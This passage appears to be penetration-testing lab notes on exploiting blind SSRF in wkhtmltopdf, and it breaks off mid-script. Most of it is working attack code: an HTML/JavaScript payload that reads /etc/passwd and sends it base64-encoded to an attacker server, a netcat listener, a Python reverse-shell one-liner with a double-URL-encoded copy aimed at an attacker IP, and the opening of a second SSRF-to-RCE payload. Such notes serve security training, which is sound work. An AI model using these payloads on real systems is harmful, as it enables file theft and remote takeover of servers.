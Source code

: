 This means we can execute JavaScript in wkhtmltopdf
#### Create HTML file w/ embedded JavaScript to read a local file
```html
<html>
	<body>
		<b>Exfiltration via Blind SSRF</b>
		<script>
		var readfile = new XMLHttpRequest(); // Read the local file
		var exfil = new XMLHttpRequest(); // Send the file to our server
		readfile.open("GET","file:///etc/passwd", true);
		readfile.send(); // Initiate the request to read the file content asynchronously
		readfile.onload = function () { // Executes when the request to read the file completes
			if (readfile.readyState === 4) { // readyState 4 is READYSTATE_COMPLETE
				var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response); // base64 encoded
				exfil.open("GET", url, true);
				exfil.send(); // Request is sent to URL
			}
		}
		readfile.onerror = function(){document.write('<a>Oops!</a>');} // Error handling
		</script>
	</body>
</html>
```
#### Start a netcat listener on port 9090
```Shell
nc -nlvp 9090
```
#### Upload the file to the server
#### Decode the base64 response
```Shell
echo """cm9vdDp4OjA6MDpyb290Oi9yb<SNIP>""" | base64 -d
```
#### *Refer to previous internal web app (`internal.app.local`) for the next exercise*
- This time you will create an HTML document with a valid payload for exploiting the local application listening on `internal.app.local`
#### Create a Bash Reverse Shell
```Shell
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
#### URL Encode it twice
```
export%2520RHOST%253D%252210.10.15.176%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
```
#### Create an HTML file that performs a GET request to internal.app.local, reaches the local application vulnerable to remote code execution via SSRF, and executes our reverse shell
```html
<html>
	<body>
		<b>Reverse Shell via Blind SSRF</b>
		<script>
		var http = new XMLHttpRequest();
```